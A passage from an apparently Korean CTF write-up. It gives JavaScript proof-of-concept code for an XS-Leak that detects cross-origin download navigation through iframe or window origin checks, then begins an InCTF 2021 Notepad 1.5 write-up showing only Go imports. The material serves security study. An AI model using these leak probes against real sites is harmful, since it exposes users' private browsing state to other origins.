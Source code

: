```js
var url = 'https://github.com/wjddnjs33/Exploit/archive/refs/heads/main.zip';

var iframe = document.createElement('iframe');
document.body.appendChild(iframe);

iframe.srcdoc = `<iframe src="${url}" ></iframe>`;
iframe.onload = () => {
      try {
          iframe.contentWindow.frames[0].origin;
          console.log('Download attempt detected');
      } catch(e) {
          console.log('No download attempt detected');
      }
}
```
POC는 위와 같습니다. 

![image](https://user-images.githubusercontent.com/49112423/129486548-895bce61-2348-4f3b-aef6-bb4780540b1a.png)

세 번째 방식은 두 번째 방식과 원리는 동일 하지만 iframe을 사용하지 않고 트리거 하는 방식 입니다. 

```js
var url = 'https://example.org';
var win = window.open(url);

setTimeout(() => {
      try {
          // If a navigation occurs, the iframe will be cross-origin,
          // so accessing "win.origin" will throw an exception
          win.origin;
          parent.console.log('Download attempt detected');
      } catch(e) {
          parent.console.log('No download attempt detected');
      }
}, 2000);
```
POC는 위와 같습니다. 

---
# Exploit (Web) InCTF 2021 - Notepad 1.5 - Arthur's Article [900 pts]

> Notepad 1.5 - Arthur's Article 문제는 XS-Leak을 이용하여 플래그를 획득하는 문제 입니다.

```go
package main

import (
	"crypto/md5"
	"encoding/hex"
	"flag"
	"fmt"
	"html"
	"log"
	"math/rand"
	"net/http"
	"os"
	"regexp"
	"strings"
	"time"

	"github.com/gorilla/handlers"
	"github.com/gorilla/mux"
)
```